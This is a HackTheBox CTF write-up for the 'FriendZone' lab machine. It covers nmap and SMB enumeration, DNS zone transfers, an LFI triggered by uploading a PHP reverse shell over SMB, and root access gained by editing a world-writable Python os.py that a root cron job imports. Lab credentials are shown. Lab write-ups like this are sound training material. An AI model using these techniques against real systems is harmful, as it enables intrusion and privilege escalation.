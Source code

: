 ```yaml
---
title: "HackTheBox - WriteUp 4"
date: 2019-05-18T13:02:03+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# FriendZone

## Before Attack

`nmap -A -Pn -p1-65535 10.10.10.123`

Response:

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   http/1.1
|_  http/1.1
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Found `53/tcp` & SMB, check SMB first.

### SMB 

`nmap --script smb-enum-shares -p139,445 10.10.10.123` found shares and their absolute path.

Use `smbclient` to access:

```
$ smbclient -L -U guest -N //10.10.10.123

        Sharename       Type      Comment                                                            
        ---------       ----      -------                                                         
        print$          Disk      Printer Drivers                                                 
        Files           Disk      FriendZone Samba Server Files /etc/Files  <NO PERM>                         
        general         Disk      FriendZone Samba Server Files             <RO>                                            
        Development     Disk      FriendZone Samba Server Files             <RW>               
        IPC$            IPC       IPC Service (FriendZone server (Samba, Ubuntu))   
```

Get the files from share:  `/mnt/smb/general/creds.txt`

```
creds for the admin THING:
admin:WORKWORKHhallelujah@#
```

### 53/TCP DNS

Trying to access the web, notice you that you cannot access via IP directly, so let's make the `/etc/hosts` first.

Do a zone transfer scan:

```
╰─ dig axfr friendzoneportal.red @10.10.10.123  

; <<>> DiG 9.14.1 <<>> axfr friendzoneportal.red @10.10.10.123
;; global options: +cmd
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.   604800  IN      AAAA    ::1
friendzoneportal.red.   604800  IN      NS      localhost.
friendzoneportal.red.   604800  IN      A       127.0.0.1
admin.friendzoneportal.red. 604800 IN   A       127.0.0.1
files.friendzoneportal.red. 604800 IN   A       127.0.0.1
imports.friendzoneportal.red. 604800 IN A       127.0.0.1
vpn.friendzoneportal.red. 604800 IN     A       127.0.0.1
friendzoneportal.red.   604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 1025 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: 二 5月 14 15:08:02 CST 2019
;; XFR size: 9 records (messages 1, bytes 309)
```

```
╰─ dig axfr friendzone.red @10.10.10.123                         

; <<>> DiG 9.14.1 <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 1023 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: 二 5月 14 15:07:49 CST 2019
;; XFR size: 8 records (messages 1, bytes 289)
```

Finally, these sites are accessible via web:

```
$ cat /etc/hosts

10.10.10.123 friendzoneportal.red
10.10.10.123 friendzone.red
10.10.10.123 administrator1.friendzone.red
10.10.10.123 uploads.friendzone.red
```

## Start attack

### Gobuster first

`gobuster -k -u https://administrator1.friendzone.red -w /root/dictlist/DirBuster-Lists/directory-list-2.3-medium.txt -x php -o gobus123.txt`

Response:

```
/images (Status: 301)
/login.php (Status: 200)
/dashboard.php (Status: 200)
/timestamp.php (Status: 200)
```

Timestamp?? Really strange...

### Access as admin

Trying to access VSFTPD, got permission denied, password incorrect.

Trying to access `https://administrator1.friendzone.red/login.php`, get: `Login Done ! visit /dashboard.php`

Check the dashboard, found `https://administrator1.friendzone.red/login.php?image_name=a.jpg&pagename=timestamp`

Using the last result of gobuster, you may guess there's a LFI here. That's it.

> https://uploads.friendzone.red/   <UPLOAD FORM NOT WORKING, RABBIT HOLE>

The only way to upload the file is via SMB, you have RW permission only on Development.

So upload a php reverse shell from pentest monkey and LFI it through the param `pagename` without file extension.

### Reverse shell

Access: `https://administrator1.friendzone.red/login.php?image_name=a.jpg&pagename=shell`

Before that, don't forget to modify the php reverse shell and get your `nc` ready in the terminal.

Next, just walk through the `/var/www` (the home of www-data). You will find a credential and login into ssh to get a interactive shell now.

```
$ cat /var/www/mysql_data.conf

db_user=friend
db_name=FZ
db_pass=Agpyu12!0.213$
```

### Interactive Shell and Privilege Escalation

Run LinEnum and Pspy and also LinuxPrivilegeChecker, Got the following results:

```
PSPY: /bin/sh -c /opt/server_admin/reporter.py (UID=0, Python2.7, ExecStart by CRON)

LinEnum:

[-] Accounts that have recently used sudo:
/home/friend/.sudo_as_admin_successful

PrivilegeChecker:

[+] World Writable Files
    -rwxrw-rw- 1 nobody nogroup 11 May 17 15:58 /etc/Development/hell.txt
    -rwxrw-rw- 1 nobody nogroup 31 May 17 16:17 /etc/Development/hsi.php
    -rwxrw-rw- 1 nobody nogroup 604 May 17 12:03 /etc/Development/hello.php
    -rwxrw-rw- 1 nobody nogroup 68 May 17 15:54 /etc/Development/fpin.php
    -rwxrw-rw- 1 nobody nogroup 5493 May 17 18:48 /etc/Development/prsb.php
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.remove
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.replace
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.load
    -rw-rw-rw- 1 root root 0 May 17 11:45 /sys/kernel/security/apparmor/.access
    --w--w--w- 1 root root 0 May 17 19:08 /sys/fs/cgroup/memory/cgroup.event_control
    -rwxrwxrwx 1 root root 25910 Jan 15 22:19 /usr/lib/python2.7/os.py
```

So, let's check `/opt/server_admin/reporter.py` :

- Permission 644, We only can read.
- A health check script written in python to send a mail, but the send command was commented.
- `import os`

`/usr/lib/python2.7/os.py` Should only be readable in normal system, however, here, we got 777: So just modify the file to do anything you want, just don't forget always put your code at the file end.

DONE.
